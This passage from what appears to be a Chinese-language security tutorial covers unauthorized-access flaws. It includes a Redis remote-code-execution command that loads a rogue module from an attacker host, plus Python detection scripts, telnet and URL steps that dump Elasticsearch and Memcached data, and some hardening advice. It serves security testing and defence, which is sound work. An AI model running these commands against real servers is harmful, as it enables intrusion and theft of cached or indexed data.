 ```bash
pip install -r requirements.txt 
python redis-rce.py -r 192.168.28.152 -p 6379 -L 192.168.28.137 -f module.so
```
<a name="FPoyz"></a>
## 5、Elasticsearch未授权访问
漏洞原因：Elasticsearch 默认端口为9200 ，攻击者可以直接访问http://ip:port。<br />检测脚本：
```bash
#! /usr/bin/env python
# _*_  coding:utf-8 _*_

import requests
def Elasticsearch_check(ip, port=9200, timeout=5):
    try:
    　　url = "http://"+ip+":"+str(port)+"/_cat"
    　　response = requests.get(url) 
    except:
    　　pass
    if "/_cat/master" in response.content:
    　　print '[+] Elasticsearch Unauthorized: ' +ip+':'+str(port)
```
漏洞测试：
```
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search 查看数据库敏感信息
http://localhost:9200/_nodes 查看节点数据

如有安装head插件：
http://localhost:9200/_plugin/head/ web管理界面
```
修复建议：<br />1、限制IP访问，绑定固定IP<br />2、在config/elasticsearch.yml中为9200端口设置认证：
```
http.basic.enabled true #开关，开启会接管全部HTTP连接
　　http.basic.user "admin" #账号
　　http.basic.password "admin_pw" #密码
　　http.basic.ipwhitelist ["localhost", "127.0.0.1"]
```
<a name="MsCpp"></a>
## 6、MenCache未授权访问
漏洞原因：Memcached 分布式缓存系统，默认的 11211 端口不需要密码即可访问，黑客直接访问即可获取数据库中所有信息，造成严重的信息泄露。<br />检测脚本：
```bash
#! /usr/bin/env python
# _*_  coding:utf-8 _*_
def Memcache_check(ip, port=11211, timeout=5):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("stats\r\n")
        result = s.recv(1024)
        if "STAT version" in result:
            print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
    except Exception, e:
        pass
```
漏洞验证：
```bash
#无需用户名密码，可以直接连接memcache 服务的11211端口。
telnet x.x.x.x  11211

stats  //查看memcache 服务状态
stats items  //查看所有items
stats cachedump 32 0  //获得缓存key
get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露
```